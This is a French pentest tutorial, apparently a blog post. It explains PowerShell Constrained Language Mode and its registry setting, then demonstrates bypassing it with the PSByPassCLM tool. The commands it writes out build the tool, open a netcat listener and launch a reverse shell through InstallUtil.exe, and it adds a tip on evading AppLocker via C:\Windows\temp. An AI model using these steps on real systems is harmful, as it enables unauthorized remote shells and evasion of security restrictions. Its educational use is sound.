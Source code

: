 ```yaml
---
title: "[CLM] Bypass le mode de langage contraint en PowerShell"
description: clm.jpg
tags: ["Dans cet article je vous présente le système CLM (Constrained Language Mode) vous montrez le fonctionnement et de vous montrez comment bypass ce système qui vous donne pas assez de permissions dans un système PowerShell."]
---
```


![Flower](../clm.jpg)

Introduction
----
Dans ce cours à but éducatif nous allons voir `COMMENT BYPASS CONSTRAINED LANGUAGE MODE (CLM)` ou en français (Mode de langage contraint) sous PowerShell grâce à l'outil `PSByPassCLM`, téléchargeable sur [GITHUB](https://github.com/padovah4ck/PSByPassCLM). C'est un outil très utile en `PENTEST` et je devais absolument vous présenter ça. <br />

Cet outil permet d'avoir beaucoup plus de permissions dans une session `PowerShell` et exécuter des commandes comme par exemple télécharger des fichiers sur un système à distance et bien d'autre chose. <br />

CLM
----
Avant d'aller vers le technique, il faut avant tout comprendre le système `CLM`. Il s’agit d’une restriction qui vous empêche d’abuser de nombreuses fonctionnalités de powershell et de vous en servir pour énumérer, augmenter les privilèges, organiser des charges utiles et une tonne d’autres éléments. C'est `AppLocker` qui limite tout et bloque les accès, AppLocker c'est un système pour côntrolez des applications et de gérer il est disponible sur `Windows Server` et `Windows 10`.

Il y'a `4 modes` en particulier en PowerShell : 

- FullLanguage
- RestrictedLanguage
- NoLanguage 
- ConstrainedLanguage

### LANGUE COMPLÈTE (FullLanguage) :

Le mode de langue `FullLanguage` autorise tous les éléments de langue de la session. FullLanguage est le mode de langue par défaut pour les sessions par défaut sur toutes les versions de Windows, à l'exception de `Windows RT`.

### LANGUE RESTREINTE (RestrictedLanguage) :

En mode linguistique `RestrictedLanguage`, les utilisateurs peuvent exécuter des commandes (applets de commande, fonctions, commandes CIM et workflows), mais ne sont pas autorisés à utiliser des blocs de script.

### AUCUNE LANGUE (NoLanguage) :

En mode linguistique `NoLanguage`, les utilisateurs peuvent exécuter des commandes, mais ils ne peuvent utiliser aucun élément de langage dans un PowerShell.

### LANGUE CONTRAINTE (Constrained Language) :

Le mode de langage `ConstrainedLanguage` autorise toutes les cmdlets Windows et tous les éléments de langage PowerShell, mais limite les types autorisés.

CHANGER DE LANGUE/MODE
----

Il est tout à fait possible de changer de `LANGUE/MODE` depuis le registre pour assurer la sécurité, il y a d'autre moyen également, par exemple faire avec le système `GPO` (Group Policy Object) dans un environnement `Active Directory`.

![Flower](https://image.noelshack.com/fichiers/2019/23/2/1559643342-screenshot-1.png)

Le chemin pour modifier de `LANGUE/MODE` est dans `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`, et par défaut il y'a pas de `Valeur chaîne/REG_SZ` qui se nomme `__PSLockdownPolicy`, il faut créé une valeur qui se nomme `__PSLockdownPolicy` et il accepte seulement 4 `donnée(s)`.

Donnée (1)  : Pour le `FullLanguage`. <br />
Donnée (2) : Pour le `RestrictedLanguage`. <br />
Donnée (3) : Pour le `NoLanguage`. <br />
Donnée (4) : Pour le `ConstrainedLanguage` <br />

DEMONSTRATION
----

Actuellement je suis en mode `FullLanguage`. La commande à exécuter pour examiner le mode de `LANGAGE` de votre session PowerShell `$ExecutionContext.SessionState` :

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559581679-screenshot-2.png)

Comme vous pouvez le constater, je suis en mode `FullLanguage`, cette fonctionnalité designe justement j'ai les permissions pour exécuter des tâches, ce qui est plutôt pas mal. Mais dans certains cas assez étrange, vous pouvez percevoir ce type de chose pour éviter que les intrus exécutent n'importe quoi ou bien simplement pour la sécurité : <br />

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559586084-screenshot-4.png)

Concrètement comme vous pouvez le voir je suis en mode `ConstrainedLanguage`, donc impossible d'exécuter un fichier à distance, télécharger des fichiers à distance etc..

.NET
----
Avant de commencer les choses nous devons commencer par télécharger le framework `.NET`. Le .NET Framework est un cadriciel pouvant être utilisé par un système d'exploitation Microsoft Windows et Microsoft Windows Mobile depuis la version 5.

Commencer par ouvrir `Exécuter` avec la touche `WINDOWS + R` et ensuite de saisir `appwiz.cpl` et ensuite d'aller vers `Activer ou désactiver des fonctionnalités Windows`. Chercher ce système `.NET Framework 3.5 (inclut .NET 2.0 et 3.0)` (pour mon cas). Vous cochez la petite case et ensuite vous appuyez sur `OK` afin d'installer `.NET` sur votre ordinateur.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559583478-screenshot-5.png)

Build
----
Allez dans les dossiers de `.NET` pour build le fichier `.sln` dans le dossier `PSByPassCLM-master`. Le dossier de `.NET` est situer dans `C:\Windows\Microsoft.NET\Framework64\v4*`.

    PS C:\Users\Administrateur> cd C:\Windows\Microsoft.NET\Framework64\v4*
    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\MSBuild.exe C:\Users\Administrateur\Desktop\PSByPassCLM-master\PSBypassCLM\PsBypassCLM.sln
 
Et pendant ce temps là dans le dossier `*\PSByPassCLM-master\PSBypassCLM\PSBypassCLM\bin\Debug\PsBypassCLM` il a crée un fichier exécutable et ce fichier va nous permettre de changer de mode dans une session PowerShell.

Reverse Shell
----
Donc nous arrivons presque à la fin pour effectuer notre reverse shell, nous allons utiliser l'outil `InstallUtil.exe` dans le même dossier que `MSBuild.exe`. Avant ça je vais crée un `listener` qui écoute le port `9001`.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...

Et enfin de saisir cette commande pour effectuer notre reverse shell et être en mode `FullLanguage` dans notre système PowerShell (that's cool) : 

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=localhost /rport=9001 /U c:\windows\temp\PsBypassCLM.exe

Ah oui un détail assez important n'oublier surtout pas de mettre le fichier `PsBypassCLM.exe` dans `C:\Windows\temp\PsBypassCLM.exe` car dans certaines configuration on peut `BYPASS` le système `AppLocker`.

![Flower](https://image.noelshack.com/fichiers/2019/23/1/1559585660-screenshot-2.png)

Et enfin pendant ce temps là dans notre `listener` j'ai accès à un shell en mode `FullLanguage` et pour pouvoir exécuter des commandes dans le système.

    PS C:\Users\Administrateur\Desktop\netcat-1.11> nc.exe -lvnp 9001
    listening on [any] 9001 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60002
    PS C:\Windows\System32> $ExecutionContext.SessionState.LanguageMode
    FullLanguage

CONCLUSION
----

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, aura éclairci certaines choses. C'était indéniable de vous présenter ce système car en `PENTEST` dans les machines `Windows` ça m'est déjà arrivé et c'était nécessaire de faire un `TUTORIAL` sur ce système.

